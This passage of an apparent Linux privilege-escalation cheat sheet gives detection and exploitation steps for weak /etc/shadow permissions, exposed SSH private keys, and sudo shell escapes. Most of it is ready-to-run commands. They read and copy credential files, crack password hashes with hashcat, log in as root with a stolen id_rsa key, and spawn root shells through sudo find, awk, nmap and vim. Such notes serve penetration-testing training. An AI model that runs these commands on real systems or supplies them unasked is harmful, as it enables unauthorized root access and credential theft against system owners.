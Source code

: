 # 4. Privilage Escalation - Weak File Permissions
## Detection
1. `ls -la /etc/shadow`		--> note the **file permissions**  
`-rw-rw-r-- 1 root shadow 809 Jun 17  2020 /etc/shadow`

## Exploitation
1. In command prompt type: `cat /etc/passwd`
2. Save the output to a file on your attacker machine
3. In command prompt type: `cat /etc/shadow`
4. Save the output to a file on your attacker machine

**Attacker box**
	
1. In command prompt type: `unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`  
2. `hashcat -m 1800 unshadowed.txt rockyou.txt -O`

# 5. Privilage Escalation - SSH Keys
## Detection
1. In command prompt type:
`find / -name authorized_keys 2> /dev/null`
2. In a command prompt type:
`find / -name id_rsa 2> /dev/null`
3. Note the results. 

## Exploitation
**Target box**

1. Copy the contents of the discovered `id_rsa` file to a file on your attacker VM.

**Attacker box**

1. In command prompt type: `chmod 400 id_rsa`  
2. In command prompt type: `ssh -i id_rsa root@<ip>`  

# 6. Privilage Escalation - Sudo ( Shell Escaping )
## Detection
1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo. 

## Exploitation
1. In command prompt type any of the following:  
a. `sudo find /bin -name nano -exec /bin/sh \;`  
b. `sudo awk 'BEGIN {system("/bin/sh")}'`  
c. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`  
d. `sudo vim -c '!sh' `  
